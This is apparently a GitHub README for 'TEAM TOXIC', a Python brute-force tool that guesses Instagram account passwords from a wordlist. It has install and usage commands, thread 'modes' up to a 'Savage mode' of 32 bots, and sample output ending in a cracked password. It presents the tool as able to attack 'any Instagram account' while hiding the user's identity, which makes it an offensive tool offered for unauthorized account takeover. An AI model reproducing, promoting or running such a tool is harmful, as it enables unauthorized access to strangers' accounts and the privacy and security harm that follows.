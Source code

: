 # TEAM TOXIC
## Author: github.com/TOXIC4LIEN
## INSTAGRAM BRUTEFORCE TOOL 

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Vyshu101)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Support me


### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
>python3 instagram.py TOXIC.007 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py TOXIC.007 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: TOXIC.007
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: TOXIC.007
[-] Password: WEREFG
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: TOXIC.007
[+] Password: WEREFG
```
